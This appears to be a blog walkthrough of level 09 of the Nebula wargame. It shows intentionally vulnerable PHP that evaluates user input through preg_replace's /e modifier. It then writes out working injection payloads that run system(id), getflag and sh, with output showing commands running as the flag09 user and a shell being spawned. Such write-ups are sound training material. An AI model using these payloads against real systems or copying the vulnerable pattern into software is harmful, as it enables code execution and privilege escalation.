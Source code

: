 ```yaml
---
layout: post
title: "Nebula09"
---
```



## Level 09

> There’s a `C` setuid wrapper for some vulnerable `PHP` code. To do this level, log in as the `level09` account with the password `level09`. Files for this level can be found in `/home/flag09`.

## Source code

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

## Getting the flag

This program expects the path to the file as an argument and expects something like `[email something@domain.com]` in it.  
Let's try it out and see the proper flow of the program:

```
level09@nebula:/home/flag09$ echo "[email something@domain.com]" > /tmp/test 
level09@nebula:/home/flag09$ ./flag09 /tmp/test 

PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
something AT domain dot com
```

We will need to dig a little bit to find the vulnerability here. The [preg_replace](https://www.php.net/manual/en/function.preg-replace.php) is using `e` [pattern modifier](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php), which was removed in `PHP7`. The `preg_replace` with the `e` modifier takes the user input and interprets it as `PHP` code. Allowing the user to inject the `PHP` code as an input, sounds dangerous, right? 
Let's try some command injection now:

```
level09@nebula:/home/flag09$ cat /tmp/test 
[email {${system(id)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant id - assumed 'id' in /home/flag09/flag09.php(15) : regexp code on line 1
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
PHP Notice:  Undefined variable: uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09) in /home/flag09/flag09.php(15) : regexp code on line 1
```

There we have it! To the flag now!

```
level09@nebula:/home/flag09$ cat /tmp/test 
[email {${system(getflag)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/flag09/flag09.php(15) : regexp code on line 1
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

Bonus points for getting the shell 

```
level09@nebula:/home/flag09$ cat /tmp/test 
[email {${system(sh)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)

